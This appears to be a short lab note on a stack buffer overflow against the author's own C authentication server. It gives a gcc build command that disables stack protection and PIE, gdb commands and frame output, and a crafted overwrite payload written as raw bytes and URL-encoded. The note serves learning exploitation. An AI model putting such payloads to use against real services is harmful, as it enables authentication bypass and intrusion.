 # buffer_overflow_attack
it important to notice that we must install mingw compiler first
for windows run gcc -g -fno-stack-protector main.c -o auth -W -no-pie -lws2_32 //the -g is for debugging and the rest is to make sure that stack pointer is not protected
now run the ./file_name // the exe file
b function_name // breakpoint
p var_name // print the details of the var (including address in the stack pointer)


\x00\x00\x00\x00\x00\xee\x02\x00\x00\x00\x00\x00\x00\x90\xfc\x61\x00\x00\x00\x00\x00\x21\x18\x40
%00%00%00%00%00%ee%02%00%00%00%00%00%00%90%fc%61%00%00%00%00%00%21%18%40


info frame


Thread 1 hit Breakpoint 1, handle_request (client_socket=236) at main.c:41
41          char is_auth[1] = { 0 };
(gdb) info frame
Stack level 0, frame at 0x61fc10:
 rip = 0x401689 in handle_request (main.c:41); saved rip = 0x401a45
 called by frame at 0x61fe30
 source language c.
 Arglist at 0x61f7c0, args: client_socket=236
 Locals at 0x61f7c0, Previous frame's sp is 0x61fc10
 Saved registers:
  rbp at 0x61fc00, rip at 0x61fc08,

as we can see the address of the next instruction of the function that called our current stack call function is 0x401a45

